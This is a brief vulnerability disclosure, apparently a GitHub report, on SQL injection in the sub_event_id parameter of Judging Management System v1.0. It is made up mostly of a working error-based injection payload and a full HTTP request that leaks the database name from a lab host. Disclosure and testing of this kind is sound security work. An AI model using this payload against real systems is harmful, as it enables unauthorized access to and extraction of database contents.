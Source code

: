 # Judging Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Pings

vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-jms/sub_event_details_edit.php?sub_event_id=

Vulnerability location: /php-jms/sub_event_details_edit.php?sub_event_id=, sub_event_id

dbname =jms_db

[+] Payload: /php-jms/sub_event_details_edit.php?sub_event_id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> sub_event_id


```sql
GET /php-jms/sub_event_details_edit.php?sub_event_id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/206376962-c57fbf60-060f-49f7-976c-a45fe78cd664.png)
